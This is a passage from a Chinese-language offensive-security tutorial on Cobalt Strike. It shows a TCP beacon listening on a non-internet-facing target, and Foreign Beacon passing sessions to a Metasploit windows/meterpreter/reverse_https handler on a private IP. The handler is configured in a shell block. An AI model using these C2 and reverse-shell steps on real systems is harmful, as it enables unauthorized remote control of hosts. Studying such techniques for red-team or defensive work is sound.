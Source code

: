 在新建tcp beacon时可以指定监听的端口，假设为8888，在不出网的目标主机上执行后，目标主机会监听8888端口，然后父Beacon中使用connect命令进行连接：

![image-20220213210419805](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402271944597.png)

### Foreign Beacon

使用CS的Foreign Beacon可以派生到meterpreter会话，有http和https两种监听器。

首先在msf中起一个监听器：

```shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(handler) > set lhost 10.211.55.2
lhost => msf ip
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > exploit
```

然后在cs里配置，填上msf的ip和监听端口。

然后选择会话右键派生，会话选择forign beacon：

![image-20240227195131535](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402271951624.png)

随后在msf中就会接收到会话：

![image-20240227195228315](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402271952409.png)


